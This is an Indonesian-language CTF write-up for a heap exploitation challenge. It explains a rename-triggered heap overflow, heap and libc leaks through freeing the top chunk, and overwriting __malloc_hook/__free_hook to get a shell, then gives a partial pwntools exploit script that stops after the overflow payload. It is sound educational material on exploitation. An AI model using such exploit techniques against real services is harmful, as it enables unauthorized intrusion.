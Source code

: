 Dapat dilihat bahwa setelah beberapa waktu, coolness dan tastiness berdua akan lebih dari 50, setelah itu anda dapat mengubah nama dari buah yang sedang dilatih. Akan tetapi, panjang dari nama yang baru bisa jadi lebih besar dari panjang nama sebelumnya. Ini mengakibatkan heap overflow.

### Mendapatkan heap leak
Setiap kali kita allokasikan buah yang baru, namanya merupakan pointer ke sebuah array karakter, dimana array tersebut terletak didalam heap. Dengan mengalokasikan 2 buah dan membuat nama baru untuk buah pertama sehingga bertepatan dengan pointer nama buah kedua, kita bisa mendapatkan sebuah heap leak.

### Mendapatkan libc leak
Dengan mengubah ukuran dari top chunk menjadi ukuran tertentu, kita dapat memanggil fungsi free(). Gimana caranya? Ketika ukuran dari top chunk lebih kecil dari nilai yang ingin kita allokasikan, top chunk tersebut akan difree dan mmap akan dipanggil, sehingga arena baru akan dibuat. Jika ukuran dari top chunk pada saat itu didalam ukuran small/large chunk, chunk tersebut akan difree dan dipindahkan ke unsorted bin. Nah untuk chunk yang difree dan ditempatkan ke unsorted bin, pointer fd dan bk berdua akan menunjuk ke main arena, yang terdapat di libc.

Dengan menkombinasikan kedua teknik diatas, kita bisa mendapatkan kedua leak hanya dengan 2 buah and 3 evolusi.

### Terus ngapain
Nah mengubah pointer nama tidak hanya bisa menjadi baca semaunya, tapi bisa juga digunakan untuk menulis kemana pun. Dengan mengubah \_\_malloc\_hook maupun \_\_free\_hook, dengan mudah kita bisa mendapatkan shell.

Ini exploit lengkap aku:
```python
import sys
from pwn import *

if '--local' in sys.argv:
   p = process('./soal')
else:
   p = remote(sys.argv[1], int(sys.argv[2]))

def new_fruit(size, name):
   p.recvuntil("choice", timeout=2)
   p.sendline('1')
   p.sendlineafter(")", str(size))
   p.sendlineafter("?", name)

def train_fruit(num):
   p.sendline('2')
   p.sendlineafter("?\n", num)

def list_fruits():
   p.recvuntil("choice")
   p.sendlineafter(":", '3')
   p.recv(1024)

new_fruit(0x50, "Zafir")
list_fruits()

l = ''
while "evolving" not in l: 
   train_fruit('0')
   l = p.recv(1024)
p.sendlineafter('(y/n)', 'y')
p.sendlineafter('s)', '96')
payload = p64(0x0101010101010101)*11 + p64(0xf71)
p.sendlineafter("be?", payload)

new_fruit(0x1000, "A"*0x8)
```